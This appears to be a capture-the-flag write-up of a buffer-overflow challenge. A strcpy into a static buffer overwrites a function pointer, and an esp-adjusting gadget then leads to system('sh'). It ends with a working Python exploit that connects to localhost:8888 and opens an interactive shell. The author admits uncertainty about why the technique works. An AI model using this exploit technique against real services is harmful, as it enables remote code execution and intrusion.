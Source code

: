 # Vulnerability
```c
char buf[48];
fgets(buf,48,stdin);
strcpy(buffer,buf);
```
This program uses strcpy function.

# Exploitation
```c
static char buffer[40];
static void (*ftn)();
```
This program declares buffer and function pointer as static.
```
(gdb) x/32x 0x08049800
0x8049800 <buffer>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049810 <buffer+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049820 <buffer+32>:	0x00000000	0x00000000	0x0804854a	0x0000000a
```
So, When I overwrite buffer, I can overwrite `ftn`.

When this program ends, It calls `ftn` function but the buffer's size(48) is not enought to give parameter.

The method that I used in this problem is calling `add` assembly code to move esp.
```
0x08048545 <main+80>:	call   0x80483a8
0x0804854a <main+85>:	add    $0x10,%esp
0x0804854d <main+88>:	mov    0x80497e4,%eax
```
By giving `0x0804854a` address, I can move esp and finally I can call system function.

The payload will be:
```
------------------------------------------------------------------------------
| ("A"*40 + add_gadget + '\n') * 4 | dummy(8) | system(4) | "AAAA" | sh_addr |
------------------------------------------------------------------------------
I don't know exactly how this problem solved, So I will check later again.

# Payload
```python
from struct import *
from socket import *
p = lambda x: pack('<L', x)

system 		= 0x007db0e7
add_gadget 	= 0x0804854a
sh_addr 	= 0x008bd987

payload = ""
payload += ("A"*40 + p(add_gadget) + '\n') * 4
payload += "A"*8 + p(system) + "A" * 4 + p(sh_addr)

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 8888))
print s.recv(1024)
s.send(payload)
s.send("id\n")
while True:
	s.send(raw_input('$ ') + '\n')
	print s.recv(1024)
s.close()
```
